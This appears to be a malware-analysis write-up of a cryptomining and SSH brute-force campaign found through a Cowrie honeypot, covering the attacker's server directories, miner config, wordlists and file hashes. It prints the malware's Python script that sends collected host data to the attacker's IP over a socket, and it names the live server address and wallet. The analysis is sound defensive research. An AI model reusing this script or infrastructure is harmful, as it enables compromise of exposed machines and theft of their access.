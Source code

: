 
### The log file

<img src="https://i.imgur.com/OlKKF60.png" alt="http://209.141.32.204" width="70%" height="35%">
<br>
The command below was used in the screenshot above to scrape & print information about a session in which the user tires to use my honeypot to mine Moner.

```bash
tail -f cowrie.json | jq -r '. | select(.eventid | contains("cowrie.command.input")) | "CMD: " + .input, "Session: " + .session,  "SRC IP: " + .src_ip + "\r\n"'
```
The image below shows the results of the DirSearch scan of 209.141.32[.]204. The image shows that the IP has a couple of hidden directories and a handful of other files. 
<img src="https://i.imgur.com/TGUCk5q.png" alt="http://209.141.32.204 dirsearch" width="35%" height="35%">

### The hidden .ssh directory
The image below shows the contents of `http://209.141.32[.]204/.ssh`. Right of away, two files grab my attention. The `config.json` and the `krane` file. These grab my attention because those files were created just three days ago.<br><br>
<img src="https://i.imgur.com/SGZIAVk.png" alt="http://209.141.32[.]204/.ssh" width="35%" height="35%">

## Config.json
The `config.json` file also caught my eye because config.json files are often used by miners for mining. 
The following Monero address was being used for the mining. The pool that was being used was "hashvault.pro".

`49ubSTdDp9hPmYE7paRM6PZFLmqvsedZ56MXLUT8mvYnTzjVCKGDbpuW4RVdvZon228uWnkjoJN8S6w5S4LdgeK8UBMMEhJ`

Most miners have a feature built into the miner that allows the user to donate some of their hashes to the developers. This miner might donate all their hashes to the developers 1 minute every hour. The value was set as 1, this is intresting becauase they author of the malware was donating their hash power to the developers.  This might be on purpose or a careless mistake of a inexperienced malware author. 

### The .db directory
<img src="https://i.imgur.com/DI2TCio.png" alt="http://209.141.32[.]204/.db" width="35%" height="35%">
<br>
The image above shows the contents of the .db directory. The directory contains a handful of text files that are used by the malware to brute force machines that have SSH exposed.<br>

<img src="https://i.imgur.com/DFAvqKD.png" alt="http://209.141.32[.]204/.db" width="35%" height="35%"><br>
The image above shows the contents of pass.txt. The pass.txt file contains popular passswords and usernames. 

### K 
The 'k' file can be found at `http://209.141.32[.]204/k`. In order to ungzip the file, we need to use the `cp k k.gz` commmand to add the 
gz extension to the file. This is needed so we can ungzip the file. Next we used `gzip -d k.gz` to ungzip the file. The result ended with a new file named `k.tar`. Once again we have to use the command `cp k k.tar` to change the file's extension to .tar. Lastly we use the command 
`tar -xvf k.tar` to untar the file. The results are a new hidden folder named `.k`. 

```
a:             ASCII text
boner:         ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, stripped
k_config.json: JSON data
main:          ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6585c7cd03ec265663087a7edaa517813514e9fa, for GNU/Linux 3.2.0, not stripped
ra:            ASCII text
rx:            ASCII text
send_vuln.py:  Python script, ASCII text executable
ta:            ASCII text
tx:            ASCII text
x:             ASCII text
```
The snippet above shows the contents of the .k.tar directory. 

## The contents of k_config.json
```text
{
    "remote":
    {
        "ip_to_send_vuln": "209.141.32.204",
        "port_to_send_vuln": 10102
    },

    "events":
    {
        "send_vuln_after_seconds": 15

    }
}
```
The snippet above shows the contents of k_config.json. The JSON file looks like a config file that contains the IP and the port that is used by the malware.  By looking at the events key, it looks like this config file is used with by the `send_vuln.py` file. The port that the config file uses is port 10102. The IP that is listed in the config file is the same IP that was used to download all the other files.

### The send_vuln.py file
```python
import socket
import json
import time
import os

data = ""

with open("k_config.json", 'r') as ftr:
    data = json.load(ftr)


remote_data = [data["remote"]["ip_to_send_vuln"], data["remote"]["port_to_send_vuln"]]
trigger_after_econds = data["events"]["send_vuln_after_seconds"]

def read_file(filename):
    ce_am_citit = []
    with open(filename, 'r') as ftr:
        for l in ftr:
            ce_am_citit.append(l.strip())

    return ce_am_citit

def remove_file(filename):
    os.remove(filename)



start_time = 0
while True:
    time.sleep(1)
    try:
        if time.time() - start_time > trigger_after_econds:
            start_time = time.time()
            prinse = read_file("prinse.txt")
            if len(prinse) < 1:
                continue

            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.connect((remote_data[0], remote_data[1]))

            string_to_send = ""

            for p in prinse:
                string_to_send += p + "\n"

            sock.send(bytes(string_to_send, "UTF-8"))
            print("vuln sent")
            remove_file("prinse.txt")

            sock.close()
    except:
        pass
```

The snippet above shows the contents of the `send_vuln.py` file. The file is written in Python. By looking at the script it looks like the Python script reads the `k_config.json` file to gather the port and IP of the control server, the code then uses Python's socket module to connect to server. 


### IOC
dfa6d202fc24623a5aadf3684aadcfbce72ee8aa  config.json<br>
f1cb326ee8ab4217cf9191f395e35fe684dd426a  a<br>
bfa1d6ecc6a4f2da893b88f15b96a96320dd27c5  b<br>
d987680671c4c35610d659dd5dc2e0f4d387e0b4  pass.txt<br>
3fbbd4ef15e064bd2f4b8b643aacbafdfc347833  dump.txt<br>
16e358574ef61f841f8b6ddb45188446c7da8c7d  k<br>
ad4649a79b67c1db9a8343e18af3b7c0d323172c  a<br>
a9c7d059a22fed787f48698c5c10b0b5146f616d  boner<br>
9c9a96383883601d9ad8a7d78eb3995a7dfbc350  k_config.json<br>
2ccf0c37b004b1793dd79792dc6ffd83e7438137  main<br>
1f8f3d751b578242e9c2b32391c8a162e154c7b2  ra<br>
e5dcaab24fab63b050a5a80b50f5a9ad17d127f1  rx<br>
638108b2217b21843ba7f1c80a95f756e5e2310d  send_vuln.py<br>
a82a8eda9177b2ef1e8936784d0aa5d79fa2ddce  ta<br>
e85c6b190d672884a4a37039cb35dfc73a84318a  tx<br>
f5f323005f8c71324c53c864d28db4cbed8e78ac  x<br>
